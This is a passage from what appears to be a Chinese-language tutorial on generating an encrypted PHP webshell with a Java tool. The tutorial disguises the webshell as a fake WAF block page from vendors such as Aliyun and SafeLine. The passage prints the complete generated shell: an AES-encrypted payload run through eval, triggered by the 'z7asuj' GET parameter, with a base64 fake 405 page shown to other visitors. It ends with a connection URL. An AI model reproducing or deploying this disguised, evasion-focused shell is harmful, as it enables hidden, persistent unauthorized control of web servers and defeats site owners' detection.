        // 调用 PhpEncodeDemo6 进行加密
        PhpEncodeDemo6 encoder = new PhpEncodeDemo6("", sourceCode, secretKey);
        String[] encodedData = encoder.Run();
        String encryptedCode = encodedData[0]; // 加密后的 PHP 代码
        String fakeHtml = new HtmlPretend().GetPhp("AliyunWAF", "405");
        String finalCode = encryptedCode + fakeHtml;
        data = finalCode.getBytes(StandardCharsets.UTF_8);
    } catch (Exception e) {
        Log.error(e);
    }
    return data;
}
```

后面的部分先不管，主要是

```
PhpEncodeDemo6 encoder = new PhpEncodeDemo6("", sourceCode, secretKey);
String[] encodedData = encoder.Run();
String encryptedCode = encodedData[0]; 
```

如果只是这样，还不够，这里我们再次加入我们的伪造 waf 页面

还是刚刚的逻辑



```
public String GetPhp(String name, String pretendField) {
    switch (name) {
        case "custom":
            this.pretendHtml = this.SetPhp(pretendField, "200");
            break;
        case "AliyunWAF":
            this.pretendHtml = this.SetPhp(AliyunWAF.GetHtml(), AliyunWAF.getCode());
            break;
        case "T-mshenWAF":
            this.pretendHtml = this.SetPhp(TmshenWAF.GetHtml(), TmshenWAF.getCode());
            break;
        case "T-secWAF":
            this.pretendHtml = this.SetPhp(TsecWAF.GetHtml(), TsecWAF.getCode());
            break;
        case "AnyuWAF":
            this.pretendHtml = this.SetPhp(AnyuWAF.GetHtml(), AnyuWAF.getCode());
            break;
        case "SafeLineWAF":
            this.pretendHtml = this.SetPhp(SafeLineWAF.GetHtml(), SafeLineWAF.getCode());
            break;
        case "SafedogWAF":
            this.pretendHtml = this.SetPhp(SafedogWAF.GetHtml(), SafedogWAF.getCode());
            break;
        case "WangsuWAF":
            this.pretendHtml = this.SetPhp(WangsuWAF.GetHtml(), WangsuWAF.getCode());
            break;
        default:
            this.pretendHtml = "";
    }

    return this.pretendHtml;
}
```

集成下来就是

```
String fakeHtml = new HtmlPretend().GetPhp("AliyunWAF", "405");
String finalCode = encryptedCode + fakeHtml;
data = finalCode.getBytes(StandardCharsets.UTF_8);
```

在最后我们生成木马后加上我们的伪造

然后构建一下，生成木马

```
<?php
error_reporting(0);
class cFile {
    public static function selectFile($filename){
        $sign = 'fc70f4eeba33b088';
        $fileurl = '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';
        $file = openssl_decrypt(cFile::de($fileurl), "AES-128-ECB", $sign,OPENSSL_PKCS1_PADDING);
        $file_error = $$filename;
        @eval($file_error);
        return "filename";
    }
    public static function getPriv() {
        return 'selectFile';
    }
    public static function de($fileurl){
        return base64_decode($fileurl);
    }
}
//$cfile = 'cFile';
$cfile = $_GET['z7asuj'];
$error = [$cfile,[$cfile,'getPriv']()];
$error('file');

$Vdo3Oc = "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9InpoLWNuIj4KCjxoZWFkPgogICAgPG1ldGEgY2hhcnNldD0idXRmLTgiPgogICAgPG1ldGEgaHR0cC1lcXVpdj0iWC1VQS1Db21wYXRpYmxlIiBjb250ZW50PSJJRT1lZGdlLGNocm9tZT0xIj4KICAgIDxtZXRhIG5hbWU9ImRhdGEtc3BtIiBjb250ZW50PSJhM2MwZSIgLz4KICAgIDx0aXRsZT4KICAgICAgICA0MDUKICAgIDwvdGl0bGU+CiAgICA8c2NyaXB0IHNyYz0iLy9nLmFsaWNkbi5jb20vY29kZS9saWIvcXJjb2RlanMvMS4wLjAvcXJjb2RlLm1pbi5qcyI+PC9zY3JpcHQ+CiAgICA8c3R5bGU+CiAgICAgICAgaHRtbCwKICAgICAgICBib2R5LAogICAgICAgIGRpdiwKICAgICAgICBhLAogICAgICAgIGgyLAogICAgICAgIHAgewogICAgICAgICAgICBtYXJnaW46IDA7CiAgICAgICAgICAgIHBhZGRpbmc6IDA7CiAgICAgICAgICAgIGZvbnQtZmFtaWx5OiDlvq7ova/pm4Xpu5E7CiAgICAgICAgfQoKICAgICAgICBhIHsKICAgICAgICAgICAgdGV4dC1kZWNvcmF0aW9uOiBub25lOwogICAgICAgICAgICBjb2xvcjogIzNiNmVhMzsKICAgICAgICB9CgogICAgICAgIC5jb250YWluZXIgewogICAgICAgICAgICB3aWR0aDogMTAwMHB4OwogICAgICAgICAgICBtYXJnaW46IGF1dG87CiAgICAgICAgICAgIGNvbG9yOiAjNjk2OTY5OwogICAgICAgIH0KCiAgICAgICAgLmhlYWRlciB7CiAgICAgICAgICAgIHBhZGRpbmc6IDUwcHggMDsKICAgICAgICB9CgogICAgICAgIC5oZWFkZXIgLm1lc3NhZ2UgewogICAgICAgICAgICBoZWlnaHQ6IDM2cHg7CiAgICAgICAgICAgIHBhZGRpbmctbGVmdDogMTIwcHg7CiAgICAgICAgICAgIGJhY2tncm91bmQ6IHVybChodHRwczovL2Vycm9ycy5hbGl5dW4uY29tL2ltYWdlcy9UQjFUcGFtSHBYWFhYYUpYWFhYZUI3bllWWFgtMTA0LTE2Mi5wbmcpIG5vLXJlcGVhdCAwIC0xMjhweDsKICAgICAgICAgICAgbGluZS1oZWlnaHQ6IDM2cHg7CiAgICAgICAgfQoKICAgICAgICAubWFpbiB7CiAgICAgICAgICAgIHBhZGRpbmc6IDUwcHggMDsKICAgICAgICAgICAgYmFja2dyb3VuZDoKICAgICAgICAgICAgICAgICNmNGY1Zjc7CiAgICAgICAgfQoKICAgICAgICAubWFpbiBpbWcgewogICAgICAgICAgICBwb3NpdGlvbjogcmVsYXRpdmU7CiAgICAgICAgICAgIGxlZnQ6IDEyMHB4OwogICAgICAgIH0KCiAgICAgICAgLmZvb3RlciB7CiAgICAgICAgICAgIG1hcmdpbi10b3A6CiAgICAgICAgICAgICAgICAzMHB4OwogICAgICAgICAgICB0ZXh0LWFsaWduOiByaWdodDsKICAgICAgICB9CgogICAgICAgIC5mb290ZXIgYSB7CiAgICAgICAgICAgIHBhZGRpbmc6IDhweCAzMHB4OwogICAgICAgICAgICBib3JkZXItcmFkaXVzOgogICAgICAgICAgICAgICAgMTBweDsKICAgICAgICAgICAgYm9yZGVyOiAxcHggc29saWQgIzRiYWJlYzsKICAgICAgICB9CgogICAgICAgIC5mb290ZXIgYTpob3ZlciB7CiAgICAgICAgICAgIG9wYWNpdHk6IC44OwogICAgICAgIH0KCiAgICAgICAgLmFsZXJ0LXNoYWRvdyB7CiAgICAgICAgICAgIGRpc3BsYXk6IG5vbmU7CiAgICAgICAgICAgIHBvc2l0aW9uOiBhYnNvbHV0ZTsKICAgICAgICAgICAgdG9wOiAwOwogICAgICAgICAgICBsZWZ0OiAwOwogICAgICAgICAgICB3aWR0aDogMTAwJTsKICAgICAgICAgICAgaGVpZ2h0OgogICAgICAgICAgICAgICAgMTAwJTsKICAgICAgICAgICAgYmFja2dyb3VuZDogIzk5OTsKICAgICAgICAgICAgb3BhY2l0eTogLjU7CiAgICAgICAgfQoKICAgICAgICAuYWxlcnQgewogICAgICAgICAgICBkaXNwbGF5OiBub25lOwogICAgICAgICAgICBwb3NpdGlvbjoKICAgICAgICAgICAgICAgIGFic29sdXRlOwogICAgICAgICAgICB0b3A6IDIwMHB4OwogICAgICAgICAgICBsZWZ0OiA1MCU7CiAgICAgICAgICAgIHdpZHRoOiA2MDBweDsKICAgICAgICAgICAgbWFyZ2luLWxlZnQ6IC0zMDBweDsKICAgICAgICAgICAgcGFkZGluZy1ib3R0b206CiAgICAgICAgICAgICAgICAyNXB4OwogICAgICAgICAgICBib3JkZXI6IDFweCBzb2xpZCAjZGRkOwogICAgICAgICAgICBib3gtc2hhZG93OiAwIDJweCAycHggMXB4IHJnYmEoMCwgMCwgMCwgLjEpOwogICAgICAgICAgICBiYWNrZ3JvdW5kOiAjZmZmOwogICAgICAgICAgICBmb250LXNpemU6IDE0cHg7CiAgICAgICAgICAgIGNvbG9yOiAjNjk2OTY5OwogICAgICAgIH0KCiAgICAgICAgLmFsZXJ0IGgyIHsKICAgICAgICAgICAgbWFyZ2luOgogICAgICAgICAgICAgICAgMCAycHg7CiAgICAgICAgICAgIHBhZGRpbmc6IDEwcHggMTVweCA1cHggMTVweDsKICAgICAgICAgICAgZm9udC1zaXplOiAxNHB4OwogICAgICAgICAgICBmb250LXdlaWdodDogbm9ybWFsOwogICAgICAgICAgICBib3JkZXItYm90dG9tOiAxcHggc29saWQgI2RkZDsKICAgICAgICB9CgogICAgICAgIC5hbGVydCBhIHsKICAgICAgICAgICAgZGlzcGxheTogYmxvY2s7CiAgICAgICAgICAgIHBvc2l0aW9uOiBhYnNvbHV0ZTsKICAgICAgICAgICAgcmlnaHQ6IDEwcHg7CiAgICAgICAgICAgIHRvcDogOHB4OwogICAgICAgICAgICB3aWR0aDogMzBweDsKICAgICAgICAgICAgaGVpZ2h0OiAyMHB4OwogICAgICAgICAgICB0ZXh0LWFsaWduOiBjZW50ZXI7CiAgICAgICAgfQoKICAgICAgICAuYWxlcnQgcCB7CiAgICAgICAgICAgIHBhZGRpbmc6IDIwcHggMTVweDsKICAgICAgICB9CgogICAgICAgICNmZWVkYmFjay1jb250YWluZXIgewogICAgICAgICAgICB3aWR0aDogMTEwcHg7CiAgICAgICAgICAgIG1hcmdpbjogYXV0bzsKICAgICAgICAgICAgbWFyZ2luLXRvcDogMTIwcHg7CiAgICAgICAgICAgIHRleHQtYWxpZ246IGNlbnRlcjsKICAgICAgICB9CgogICAgICAgICNxcmNvZGUgewogICAgICAgICAgICBtYXJnaW46IDAgMTVweCA1cHggMTVweDsKICAgICAgICB9CgogICAgICAgICNmZWVkYmFjayBhIHsKICAgICAgICAgICAgY29sb3I6ICM5OTk7CiAgICAgICAgICAgIGZvbnQtc2l6ZTogMTJweDsKICAgICAgICAgICAgbWFyZ2luLXRvcDogNXB4OwogICAgICAgIH0KICAgIDwvc3R5bGU+CjwvaGVhZD4KCjxib2R5IGRhdGEtc3BtPSI3NjYzMzU0Ij4KICAgIDxzY3JpcHQ+CiAgICAgICAgd2l0aCAoZG9jdW1lbnQpIHdpdGggKGJvZHkpIHdpdGggKGluc2VydEJlZm9yZShjcmVhdGVFbGVtZW50KCJzY3JpcHQiKSwgZmlyc3RDaGlsZCkpIHNldEF0dHJpYnV0ZSgiZXhwYXJhbXMiLCAiY2F0ZWdvcnk9JnVzZXJpZD02ODUzMDgyOTUmYXBsdXMmdWRwaWQ9VldlVU9jZVFKZEtqJiZ5dW5pZD0mZTkzYjRlM2U3NWUwNSZ0cmlkPTY1MjViNzk2MTU4MzkyMDYwOTQwMDM5MzhlJmFzaWQ9QVlmNTJDamh0V2hlK2FmK0hRQUFBQUNXQS9TSW5PM1FMdz09IiwgaWQgPSAidGItYmVhY29uLWFwbHVzIiwgc3JjID0gKGxvY2F0aW9uID4gImh0dHBzIiA/ICIvL2ciIDogIi8vZyIpICsgIi5hbGljZG4uY29tL2FsaWxvZy9tbG9nL2FwbHVzX3YyLmpzIikKICAgIDwvc2NyaXB0PgogICAgPHNjcmlwdD4KICAgICAgICAvLwogICAgICAgIHZhciBpMThuT2JqZWN0ID0gewogICAgICAgICAgICAiemgtY24iOiB7CiAgICAgICAgICAgICAgICAibWVzc2FnZSI6ICLlvojmirHmrYnvvIznlLHkuo7mgqjorr/pl67nmoRVUkzmnInlj6/og73lr7nnvZHnq5npgKDmiJDlronlhajlqIHog4HvvIzmgqjnmoTorr/pl67ooqvpmLvmlq3jgIIiLAogICAgICAgICAgICAgICAgImJnSW1nIjogImh0dHBzOi8vZXJyb3JzLmFsaXl1bi5jb20vaW1hZ2VzL1RCMTVRR2FIcFhYWFhYT2FYWFhYaWEzOVhYWC02NjAtMTE3LnBuZyIsCiAgICAgICAgICAgICAgICAicmVwb3J0IjogIuivr+aKpeWPjemmiCIsCiAgICAgICAgICAgIH0sCiAgICAgICAgICAgICJlbi11cyI6IHsKICAgICAgICAgICAgICAgICJtZXNzYWdlIjogIlNvcnJ5LCB3ZSBoYXZlIGRldGVjdGVkIG1hbGljaW91cyB0cmFmZmljIGZyb20geW91ciBuZXR3b3JrLCBwbGVhc2UgdHJ5IGFnYWluIGxhdGVyLiIsCiAgICAgICAgICAgICAgICAiYmdJbWciOiAiaHR0cHM6Ly9pbWcuYWxpY2RuLmNvbS90ZnMvVEIxQURBT0lGenFLMVJqU1pTZ1hYY3BBVlhhLTEzMjAtMjM0LmpwZyIsCiAgICAgICAgICAgICAgICAicmVwb3J0IjogIlJlcG9ydCIsCiAgICAgICAgICAgIH0KICAgICAgICB9CiAgICAgICAgdmFyIGkxOG4gPSBpMThuT2JqZWN0WyJlbi11cyJdOwogICAgICAgIGlmIChuYXZpZ2F0b3IubGFuZ3VhZ2UuaW5kZXhPZigiemgiKSA+PSAwKSB7CiAgICAgICAgICAgIGkxOG4gPSBpMThuT2JqZWN0WyJ6aC1jbiJdOwogICAgICAgIH0KCiAgICA8L3NjcmlwdD4KCiAgICA8ZGl2IGRhdGEtc3BtPSIxOTk4NDEwNTM4Ij4KICAgICAgICA8ZGl2IGNsYXNzPSJoZWFkZXIiPgogICAgICAgICAgICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPgogICAgICAgICAgICAgICAgPGRpdiBjbGFzcz0ibWVzc2FnZSI+CiAgICAgICAgICAgICAgICAgICAgPHNjcmlwdD5kb2N1bWVudC53cml0ZShpMThuLm1lc3NhZ2UpPC9zY3JpcHQ+CiAgICAgICAgICAgICAgICA8L2Rpdj4KICAgICAgICAgICAgPC9kaXY+CiAgICAgICAgPC9kaXY+CiAgICAgICAgPGRpdiBjbGFzcz0ibWFpbiI+CiAgICAgICAgICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciI+CiAgICAgICAgICAgICAgICA8c2NyaXB0PmRvY3VtZW50LndyaXRlKCc8aW1nIHdpZHRoPSI2NjAiIGhlaWdodD0iMTE3IiBzcmM9IicgKyBpMThuLmJnSW1nICsgJyIvPicpPC9zY3JpcHQ+CgogICAgICAgICAgICA8L2Rpdj4KICAgICAgICA8L2Rpdj4KICAgICAgICA8ZGl2IGNsYXNzPSJmb290ZXIiPgogICAgICAgICAgICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPgogICAgICAgICAgICAgICAgPHNwYW4gc3R5bGU9J2Rpc3BsYXk6bm9uZSc+CiAgICAgICAgICAgICAgICAgICAgPHNjcmlwdD4KICAgICAgICAgICAgICAgICAgICAgICAgZnVuY3Rpb24gZ2V0UXVlcnlTdHJpbmcodXJsLCBuYW1lKSB7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICB2YXIgcmVnID0gbmV3IFJlZ0V4cCgnKF58JiknICsgbmFtZSArICc9KFteJl0qKSgmfCQpJyk7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICB2YXIgciA9IHVybC5zdWJzdHIoMSkubWF0Y2gocmVnKTsKICAgICAgICAgICAgICAgICAgICAgICAgICAgIGlmIChyICE9PSBudWxsKSByZXR1cm4gdW5lc2NhcGUoclsyXSk7IHJldHVybiBudWxsOwogICAgICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgICAgIHZhciBfX3V1aWRfX18gPSBnZXRRdWVyeVN0cmluZyhsb2NhdGlvbi5ocmVmLCAidXVpZCIpCiAgICAgICAgICAgICAgICAgICAgPC9zY3JpcHQ+CiAgICAgICAgICAgICAgICA8L3NwYW4+CiAgICAgICAgICAgICAgICA8YSB0YXJnZXQ9Il9ibGFuayIgaWQ9InJlcG9ydCIgaHJlZj0iamF2YXNjcmlwdDo7IiBkYXRhLXNwbS1jbGljaz0iZ29zdHI9L3dhZi4xMjMuMTIzO2xvY2FpZD1kMDAxOyI+CiAgICAgICAgICAgICAgICAgICAgPHNjcmlwdD5kb2N1bWVudC53cml0ZShpMThuLnJlcG9ydCk8L3NjcmlwdD4KICAgICAgICAgICAgICAgIDwvYT4KICAgICAgICAgICAgPC9kaXY+CiAgICAgICAgPC9kaXY+CiAgICA8L2Rpdj4KICAgIDxkaXYgaWQ9ImFsZXJ0U2hhZG93IiBjbGFzcz0iYWxlcnQtc2hhZG93Ij4KICAgIDwvZGl2PgogICAgPGRpdiBpZD0iYWxlcnRDb250YWluZXIiIGNsYXNzPSJhbGVydCI+CiAgICAgICAgPGgyPgogICAgICAgICAgICDmj5DnpLrvvJoKICAgICAgICAgICAgPGEgaHJlZj0iamF2YXNjcmlwdDo7IiB0aXRsZT0i5YWz6ZetIiBpZD0iY2xvc2VBbGVydCI+CiAgICAgICAgICAgICAgICBYCiAgICAgICAgICAgIDwvYT4KICAgICAgICA8L2gyPgogICAgICAgIDxwPgogICAgICAgICAgICDmhJ/osKLmgqjnmoTlj43ppojvvIzlupTnlKjpmLLngavlopnkvJrlsL3lv6vov5vooYzliIbmnpDlkoznoa7orqTjgIIKICAgICAgICA8L3A+CiAgICA8L2Rpdj4KICAgIDxkaXYgaWQ9ImZlZWRiYWNrLWNvbnRhaW5lciI+CiAgICAgICAgPGRpdiBpZD0icXJjb2RlIj48L2Rpdj4KICAgICAgICA8ZGl2IGlkPSJmZWVkYmFjayI+PC9kaXY+CiAgICA8L2Rpdj4KICAgIDxzY3JpcHQ+CiAgICAgICAgZnVuY3Rpb24gc2hvdygpIHsKICAgICAgICAgICAgdmFyIGcgPSBmdW5jdGlvbiAoZWxlKSB7CiAgICAgICAgICAgICAgICByZXR1cm4gZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoZWxlKTsKICAgICAgICAgICAgfTsKICAgICAgICAgICAgdmFyIHJlcG9ydEhhbmRsZSA9IGcoJ3JlcG9ydCcpOwogICAgICAgICAgICB2YXIgYWxlcnRTaGFkb3cgPSBnKCdhbGVydFNoYWRvdycpOwogICAgICAgICAgICB2YXIgYWxlcnRDb250YWluZXIgPSBnKCdhbGVydENvbnRhaW5lcicpOwogICAgICAgICAgICB2YXIgY2xvc2VBbGVydCA9IGcoJ2Nsb3NlQWxlcnQnKTsKICAgICAgICAgICAgdmFyIG93biA9IHt9OwogICAgICAgICAgICBvd24ucmVwb3J0ID0gZnVuY3Rpb24gKCkgeyAKICAgICAgICAgICAgICAgIG93bi5hbGVydCgpOwogICAgICAgICAgICB9OyBvd24uYWxlcnQgPSBmdW5jdGlvbiAoKSB7IGFsZXJ0U2hhZG93LnN0eWxlLmRpc3BsYXkgPSAnYmxvY2snOyBhbGVydENvbnRhaW5lci5zdHlsZS5kaXNwbGF5ID0gJ2Jsb2NrJzsgfTsgb3duLmNsb3NlID0gZnVuY3Rpb24gKCkgeyBhbGVydFNoYWRvdy5zdHlsZS5kaXNwbGF5ID0gJ25vbmUnOyBhbGVydENvbnRhaW5lci5zdHlsZS5kaXNwbGF5ID0gJ25vbmUnOyB9OwogICAgICAgIH07CgogICAgICAgIHZhciB1dWlkID0gbG9jYXRpb24uaHJlZi5tYXRjaCgvdXVpZD0oW14mXSspLyk7CiAgICAgICAgdXVpZCA9IHV1aWQgJiYgZW5jb2RlVVJJQ29tcG9uZW50KHV1aWRbMV0pOwogICAgICAgIHZhciB1cmxRckNvZGUgPSBsb2NhdGlvbi5ocmVmLm1hdGNoKC9xcmNvZGU9KFteJl0rKS8pOwogICAgICAgIHVybFFyQ29kZSA9IHVybFFyQ29kZSAmJiBkZWNvZGVVUklDb21wb25lbnQodXJsUXJDb2RlWzFdKTsKICAgICAgICBpZiAodXVpZCB8fCB1cmxRckNvZGUpIHsKICAgICAgICAgICAgdmFyIHFyY29kZSA9IG5ldyBRUkNvZGUoZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoInFyY29kZSIpLCB7CiAgICAgICAgICAgICAgICB0ZXh0OiB1cmxRckNvZGUgfHwgdXVpZCwKICAgICAgICAgICAgICAgIHdpZHRoOiA4MCwKICAgICAgICAgICAgICAgIGhlaWdodDogODAsCiAgICAgICAgICAgICAgICBjb2xvckRhcms6ICIjOTk5IiwKICAgICAgICAgICAgfSk7CiAgICAgICAgICAgIHZhciBmZWVkYmFja0xpbmsgPSBnZXRGZWVkYmFja0xpbmsoKTsKICAgICAgICAgICAgZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoImZlZWRiYWNrIikuaW5uZXJIVE1MID0gZmVlZGJhY2tMaW5rOwogICAgICAgIH0KICAgICAgICBmdW5jdGlvbiBnZXRGZWVkYmFja0xpbmsoKSB7CiAgICAgICAgICAgIHZhciB1cmxPcmlnaW47CiAgICAgICAgICAgIHVybE9yaWdpbiA9IGxvY2F0aW9uLmhyZWYubWF0Y2goL29yaWdpbj0oW14mXSspLyk7CiAgICAgICAgICAgIHVybE9yaWdpbiA9IHVybE9yaWdpbiAmJiBkZWNvZGVVUklDb21wb25lbnQodXJsT3JpZ2luWzFdKS5zcGxpdCgiPyIpWzBdOwogICAgICAgICAgICBpZiAodXJsT3JpZ2luKSB7CiAgICAgICAgICAgICAgICB0cnkgewogICAgICAgICAgICAgICAgICAgIHVybE9yaWdpbiA9IG5ldyBVUkwodXJsT3JpZ2luKTsKICAgICAgICAgICAgICAgICAgICBpZiAodXJsT3JpZ2luLnByb3RvY29sICE9PSAiaHR0cHM6IiAmJiB1cmxPcmlnaW4ucHJvdG9jb2wgIT09ICJodHRwOiIpIHsKICAgICAgICAgICAgICAgICAgICAgICAgdXJsT3JpZ2luID0gbnVsbDsKICAgICAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgICAgICB1cmxPcmlnaW4gPSB1cmxPcmlnaW4uaHJlZjsKICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICB9IGNhdGNoIChlKSB7CiAgICAgICAgICAgICAgICAgICAgaWYgKHR5cGVvZiB1cmxPcmlnaW4gIT09ICJzdHJpbmciIHx8IHVybE9yaWdpbi5pbmRleE9mKCJodHRwIikgIT09IDApIHsKICAgICAgICAgICAgICAgICAgICAgICAgdXJsT3JpZ2luID0gbnVsbDsKICAgICAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgICAgICB1cmxPcmlnaW4gPSBmaWx0ZXJIdG1sKHVybE9yaWdpbik7CiAgICAgICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgICAgIHZhciBfbGFuZ3VhZ2UgPSBuYXZpZ2F0b3IuYnJvd3Nlckxhbmd1YWdlIHx8IG5hdmlnYXRvci5sYW5ndWFnZTsKICAgICAgICAgICAgdmFyIHRleHQgPSBbInpoLUNOIiwgInpoLWNuIl0uaW5jbHVkZXMoX2xhbmd1YWdlKSA/ICLngrnmiJHlj43ppoggPiIgOiAiQ2xpY2sgdG8gZmVlZGJhY2sgPiI7CiAgICAgICAgICAgIHJldHVybiAnPGEgaHJlZj0iJyArIHVybE9yaWdpbiArICcvX19fX190bWRfX19fXy9wYWdlL2ZlZWRiYWNrP3JhbmQ9UzNXeEdIQWdBdDc1NkVwem53Zk56SnEyQUZBMnFCTmxhM2o2RUlOVVM4V2U5ZGF6TV9pS0VscDhEd1ZTSFpVZXZwQzQxQng3UnppdlhJajlSblpnZGcmdXVpZD0nICsgZW5jb2RlVVJJQ29tcG9uZW50KHV1aWQpICsgJyZ0eXBlPTYiIHRhcmdldD0iX2JsYW5rIj4nICsgdGV4dCArICc8L2E+JzsKICAgICAgICB9OwogICAgICAgIGZ1bmN0aW9uIGZpbHRlckh0bWwoc3RyKSB7CiAgICAgICAgICAgIHN0ciA9IHN0ci5yZXBsYWNlKC8mL2csICIiKTsKICAgICAgICAgICAgc3RyID0gc3RyLnJlcGxhY2UoLz4vZywgIiIpOwogICAgICAgICAgICBzdHIgPSBzdHIucmVwbGFjZSgvPC9nLCAiIik7CiAgICAgICAgICAgIHN0ciA9IHN0ci5yZXBsYWNlKC8iL2csICIiKTsKICAgICAgICAgICAgc3RyID0gc3RyLnJlcGxhY2UoLycvZywgIiIpOwogICAgICAgICAgICBzdHIgPSBzdHIucmVwbGFjZSgvYC9nLCAiIik7CiAgICAgICAgICAgIHN0ciA9IHN0ci5yZXBsYWNlKC9qYXZhc2NyaXB0L2csICIiKTsKICAgICAgICAgICAgc3RyID0gc3RyLnJlcGxhY2UoL2lmcmFtZS9nLCAiIik7CiAgICAgICAgICAgIHJldHVybiBzdHI7CiAgICAgICAgfQoKICAgIDwvc2NyaXB0PgogICAgPHNjcmlwdCB0eXBlPSJ0ZXh0L2phdmFzY3JpcHQiIGNoYXJzZXQ9InV0Zi04IiBzcmM9Imh0dHBzOi8vZXJyb3JzLmFsaXl1bi5jb20vZXJyb3IuanM/cz0xMCI+CiAgICA8L3NjcmlwdD4KPC9ib2R5PgoKPC9odG1sPg==";
if( count($_REQUEST) || file_get_contents("php://input") ){

}else{
    header('Content-Type:text/html;charset=utf-8');    http_response_code(405);
    echo base64_decode/**/($Vdo3Oc);
}
```

需要注意木马的

```
$cfile = $_GET['z7asuj'];
$error = [$cfile,[$cfile,'getPriv']()];
$error('file');
```

连接的时候我们需要使用到 z7asuj

```
http://dedecms:5135/2.php?z7asuj=cfile
```

我们连接木马

